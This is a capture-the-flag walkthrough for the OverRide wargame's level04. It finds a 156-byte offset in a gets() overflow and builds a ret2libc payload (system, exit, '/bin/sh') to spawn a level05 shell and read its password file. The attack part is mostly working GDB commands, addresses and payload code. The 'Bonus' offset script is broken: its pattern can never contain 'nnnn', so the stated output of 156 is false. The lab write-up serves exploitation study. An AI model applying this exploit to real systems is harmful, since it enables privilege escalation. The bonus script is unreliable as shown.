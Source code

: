 # Level04 - OverRide Walkthrough

This level presents a classic **buffer overflow** vulnerability in a binary that forks a child process and uses `gets()` to read user input.
The objective is to exploit this vulnerability to execute `/bin/sh` via a **ret2libc** technique and escalate to `level05`.

---

## 🔍 Binary Behavior

1. The program forks:

   * Parent process waits for the child and uses `ptrace()` to prevent `exec()` in the child.
   * Child process reads input using `gets()` → vulnerable to buffer overflow.

2. If you provide shellcode with `execve`, the program will detect it and deny access.

---

## ⚙️ Strategy: ret2libc

Instead of injecting shellcode, we use the ret2libc technique:

* **Goal:** Overflow the buffer to overwrite `EIP` with the address of `system()`.
* **Then:** Provide `exit()` as return, and `"/bin/sh"` as the argument for `system()`.

---

## 🧪 Step-by-Step Exploitation

### 1. Find the EIP Offset

Launch GDB and use a pattern to crash the program:

```bash
gdb ./level04
(gdb) set follow-fork-mode child
(gdb) run
```

Input:

```text
AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZaaaabbbbccccddddeeeeffffgggghhhhiiiijjjjkkkkllllmmmmnnnnooooppppqqqqrrrrssssttttuuuuvvvvwwwwxxxxyyyyzzzz
```

After crash:

```gdb
EIP = 0x6e6e6e6e ('nnnn')
```

Using a pattern tool or script:

```python
pattern.find("nnnn") => 156
```

✅ **Offset = 156**

---

### 2. Gather libc addresses (from GDB)

```gdb
(gdb) info functions system   → 0xf7e6aed0
(gdb) info functions exit     → 0xf7e5eb70
(gdb) find 0xf7e2c000, 0xf7fcc000, "/bin/sh" → 0xf7f897ec
```

### 3. Create Payload

```bash
python -c 'print "A"*156 + "\xd0\xae\xe6\xf7" + "\x70\xeb\xe5\xf7" + "\xec\x97\xf8\xf7"' > /tmp/payload
```

### 4. Execute

```bash
cat /tmp/payload - | ./level04
```

Check if you have a shell:

```bash
whoami   → level05
cat /home/users/level05/.pass
```

---

## 🧠 Notes

* The vulnerability is in the child process → use `set follow-fork-mode child` in GDB.
* You must avoid `exec` due to `ptrace` detection in parent.
* The payload structure is:

```
[padding 156 bytes] + [system()] + [exit()] + ["/bin/sh"]
```

---

## 🧾 Bonus: How to Reproduce Offset Calculation

You can use this simple Python script:

```python
pattern = "".join([
    f"{a}{b}{c}{d}"
    for a in "ABCDEFGHIJKLMNOPQRSTUVWXYZ"
    for b in "abcdefghijklmnopqrstuvwxyz"
    for c in "0123456789"
    for d in "0123456789"
])

print(pattern.find("nnnn"))  # Output: 156
```

---

## 🧠 Author Notes

This level is a great introduction to classic binary exploitation techniques, especially when constrained by runtime protections (like `ptrace` checking for `exec`).
